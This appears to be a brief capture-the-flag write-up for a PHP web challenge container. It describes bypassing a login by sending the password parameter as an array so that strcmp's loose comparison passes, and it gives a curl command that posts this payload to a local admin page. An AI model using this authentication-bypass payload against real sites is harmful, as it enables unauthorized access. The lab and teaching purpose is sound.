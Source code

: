 # CTF 2: PHP Cracken

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master)

## Challenge 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
 curl -X POST --data "username=admin&password[]=%22%22&submit=Login" http://127.0.0.1/admin/index.php
```

